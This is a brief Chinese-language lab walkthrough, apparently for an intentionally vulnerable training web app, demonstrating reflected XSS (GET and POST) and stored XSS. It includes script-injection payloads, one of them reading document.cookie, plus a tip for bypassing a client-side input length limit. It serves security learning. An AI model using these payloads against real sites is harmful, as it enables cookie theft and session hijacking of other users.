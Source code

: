 

## Cross-Site Scripting

### 反射型xss(get)

经典alert

```
<script>alert('xss')</script>
```

但是前端做了输入长度的限制，所以直接F12查看元素，修改为比较大的数值再submit即可

![image-20250112190357133](../../_media/image-20250112190357133.png)

然后就成功弹窗了。



### 反射型xss(POST)

没啥好说的，`admin/123456`登录进去还是一样的提交

```
<script>alert('xss')</script>
```

一样弹窗，只不过提交方式变为了POST而已

```
message=%3Cscript%3Ealert%28%27xss%27%29%3C%2Fscript%3E&submit=submit
```



### 存储型xss

还是一样，只不过可以持久性触发，提交之后每一次访问这个页面都会触发这个xss脚本

```
<script>alert(document.cookie);</script>
```
